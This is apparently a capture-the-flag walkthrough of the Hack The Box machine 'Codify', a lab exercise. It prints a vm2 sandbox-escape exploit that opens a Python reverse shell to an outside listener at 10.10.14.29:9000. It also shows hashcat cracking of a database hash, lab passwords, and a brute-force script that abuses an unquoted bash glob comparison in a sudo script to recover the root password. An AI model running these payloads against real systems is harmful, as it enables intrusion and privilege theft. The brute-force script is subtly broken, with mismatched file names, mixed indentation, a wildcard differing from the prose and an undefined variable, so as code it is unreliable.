 ## Port Scan

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap 10.129.38.38 -sV          
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-25 17:05 CET
Nmap scan report for 10.129.38.38
Host is up (0.041s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.52
3000/tcp open  http    Node.js Express framework
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.75 seconds
```

There is a website on port 80. The website on port 3000 is identical with not much to do.

## Vulnerable VM 

Looking at the About section in the website it becomes clear that the website uses the `vm2` library to execute code on the server side. This code works to exploit a known vulnerability in `vm2`. Just run it in the code form. This is a slightly modified version from the online version as here we directly inject the `node.js` code in the shell.

```javascript
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('python3 -c "import os,pty,socket;s=socket.socket();s.connect((\'10.10.14.29\',9000));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\'bash\')" ');
}
```


## Piovra

As a nice notice, Piovra works to keep a persistent shell from now on, while waiting to get some SSH credentials.

## Exploration

There is a ticket.db file in `/var/www/contact.` This is a `sqlite` database file. Even without opening it via the appropriate binary (that is not available in the machine) the password hash is clearly identifiable inside it and it's easily crackable with hashcat and rockyou. 

Store the Blowfish Hash in a `hash.txt` file and run:

```shell
hashcat -m3200 hash.txt /usr/share/wordlists/rockyou.txt.gz
```

The password is `spongebob1`.

## User Joshua

This password works to get into user `joshua` via ssh. 
Now that we have the user the user flag is done.

## Privilege Escalation

The privilege escalation requires a brute force work. Running `sudo -l` we notice that there is a script that can be executed with root privileges. Analyzing its content, it is clear that there is a password check that is incorrectly enclosed into double brackets.

```shell
if [[ $ROOTPASS == $USERPASS ]]
```

This is vulnerable by injecting a `*` pattern into the User Password. Then the script runs. Unfortunately we do not obtain much from it and we cannot easily inject any code in it as it's correctly quoted everywhere. 

The solution is to brute force it. There is also a monitoring solution but it's very hard, way harder than this one (monitor the process to catch the moment before the password on the CLI gets replaced... you have to be too fast or too lucky).

So one can inject more complex patterns in the `USERPASS` until the password is retrieved. Letter by letter it is possible to catch the result. A Python script will make it. 

First let's define a convenient shell script `crack.txt` to simplify the injection, with the following one-line content:

```shell
sudo /opt/scripts/mysql-backup.sh <<< $1
```

Then the python script `crack.py` is the following:

```python
import itertools  
import string
import subprocess  
import sys  
  
def combo(prefix):  
	for i in itertools.permutations(string.printable, 1):  
		yield prefix + str(i[0]) + "?"*(20-len(prefix))  

def execute_script_with_sudo(dynamic_password):  
	"""Execute the script with sudo using fixed and dynamic passwords."""
	process = subprocess.run(f"bash -i crack.sh {dynamic_password}", 
	    shell=True,  capture_output=True, text=True)  
    print(process.stderr)  
    print(process.stdout)  
    if "confirmed" in process.stdout+process.stderr:  
        sys.exit()  
  
if __name__ == "__main__":  
    # Generate dynamic passwords  
    prefix = ""  
    if len(sys.argv) == 2:  
        prefix = sys.argv[1]  
        passwords_generator = combo(prefix)  
    
    # Execute the script with sudo for each generated password  
    for dynamic_password in passwords_generator:  
        print("Now testing ", dynamic_password)  
        execute_script_with_sudo(dynamic_password)
```

It requires a few iterations: the script will try a single random letter with the suffix `*` and it will exit if a letter will make it. This means the letter is a valid letter in the password.

At the next execution one can call the same script using the already discovered letters as a prefix (first and only argument) and the script will run again using that additional prefix, discovering an additional letter. 

Once all letters are discovered the script will not print any additional letter meaning the existing letters are the password.

The password is: `kljh12k3jhaskjh12kjh3` and this is the root password, so the privilege escalation can be done via ssh.
